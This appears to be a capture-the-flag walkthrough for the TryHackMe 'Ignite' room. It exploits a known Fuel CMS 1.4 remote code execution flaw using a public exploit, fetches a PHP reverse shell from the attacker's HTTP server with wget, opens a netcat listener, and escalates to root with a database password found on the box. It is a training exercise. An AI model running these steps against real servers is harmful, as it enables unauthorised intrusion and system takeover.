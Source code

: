 ```yaml
---
title: TryHackMe Ignite
date: 2024-04-01 00:00:00 +0800
categories: [TryHackMe]
tags: [walkthough,write-ups]     # TAG names should always be lowercase
image:
    path: https://tryhackme-images.s3.amazonaws.com/room-icons/676cb3273c613c9ba00688162efc0979.png
---
```


A new start-up has a few issues with their web server.

## **Skills Needed**

Searching exploit, CMS, Privilege escalation, Database

## **Reconnaissance**
---
Initially do the Nmap scan.

```bash
nmap -sC -sV -p- $IP --open
```
`--open`: Scans only the open ports and reduces the time it takes to complete the nmap scan.


```bash
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-21 07:09 EDT
Stats: 0:01:23 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 80.65% done; ETC: 07:11 (0:00:20 remaining)
Nmap scan report for 10.10.164.210
Host is up (0.29s latency).
Not shown: 65217 closed tcp ports (conn-refused), 317 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-robots.txt: 1 disallowed entry 
|_/fuel/
|_http-title: Welcome to FUEL CMS

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 115.27 seconds
```

## **Insights and To-TRY List**
---
OS: Ubuntu

80 → HTTP

- Using Fuel CMS version 1.4
- Has a public exploit for remote code execution. CVE 2018-16763
- Using default credentials for the admin page
- Cannot upload php file

## **Enumeration**
---
### 80 HTTP

**Viewing the webpage.**

![Desktop View](/assets/images/ignite/cms.png){: width="972" height="589" }

Upon doing some manual enumeration, I found that robots.txt is accessible

![Desktop View](/assets/images/ignite/robots.png){: width="972" height="589" }

Inspecting the CMS website.

![Desktop View](/assets/images/ignite/inspect-cms.png){: width="972" height="589" }

Altohugh I am well aware that there is an existing admin directory, I still do some directory busting to be sure that I am not missing something.

**Using gobuster**

```go
gobuster dir -u http://10.10.164.210/ -w /opt/SecLists/Discovery/Web-Content/raft-large-directories.txt -k -t 30
```
![Desktop View](/assets/images/ignite/gobuster.png){: width="972" height="589" }

Seems like it is the only page that is accessbile.

**Visiting the fuel admin page**

![Desktop View](/assets/images/ignite/admin-apge.png){: width="972" height="589" }

While exploring, I have found an upload page but it seems there is a filter that denies the php file extension.

![Desktop View](/assets/images/ignite/php-deny.png){: width="972" height="589" }

## **Gaining an Initial Foothold**

I've decided to search for a public exploit for Fuel CMS since we know the current version it's running, and we haven't found a way to upload a reverse shell yet.

Fortunately, I found one!

[Fuel CMS v1.4 public exploit](https://www.exploit-db.com/exploits/50477)

Download the exploit and execute using the command

```go
python3 <exploit-name> -u <http://IP>
```
![Desktop View](/assets/images/ignite/exploit-cms.png){: width="972" height="589" }

Upon directory listing, we can see the "robots.txt" file, which we were able to access earlier during manual enumeration. This implies that we can also execute a file once the browser client sends a "GET" request to the server. Therefore, we can obtain a reverse shell by downloading a PHP reverse shell from our local machine.

For attacking machine

```bash
python3 -m http.server
```
For target machine

```bash
wget http://10.13.50.82:8000/php-reverse-shell.php
```

![Desktop View](/assets/images/ignite/rce.png){: width="972" height="589" }

Once the PHP reverse shell has been uploaded, encode it to the browser to make a GET request to the server, enabling us to obtain a reverse shell. Don't forget to set up the listener as specified in the PHP reverse shell script.

```bash
nc -lnvp 1234
```

```bash
10.10.164.210/php-reverse-shell.php
```
![Desktop View](/assets/images/ignite/rev-shell.png){: width="972" height="589" }

Upon checking, python3 is installed in the machine. That means we can stabilize our dumb shell!

![Desktop View](/assets/images/ignite/dumb-shell.png){: width="972" height="589" }

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp
export TERM=xterm-256color
alias ll='clear -lsaht --color=auto'

**Ctrl + Z [Background Process]**
stty raw -echo ; fg ; reset
stty columns 200 rows 200
```
![Desktop View](/assets/images/ignite/stable-shell.png){: width="972" height="589" }

> Do not forget to find the flag
{: .prompt-danger }

## **Privilege Escalation**
---
After falling down the rabbit hole of finding some ways to root the box, I decided to take a look again at the homepage. Fortunately, setting up the database for the CMS has instructions where we can access it, which probably contains default credentials.

![Desktop View](/assets/images/ignite/install.png){: width="972" height="589" }

![Desktop View](/assets/images/ignite/db.png){: width="972" height="589" }

Viewing the file

![Desktop View](/assets/images/ignite/creds.png){: width="972" height="589" }

Let us try switching root

```bash
su root
mememe
```

![Desktop View](/assets/images/ignite/root.png){: width="972" height="589" }

> Do not forget to find the root flag
{: .prompt-danger }

## **Take Away Concepts**
- Read the default page of CMS — it may contain some useful information and default credentials. It could be an instruction of where to access sensitive information that the user haven’t changed.


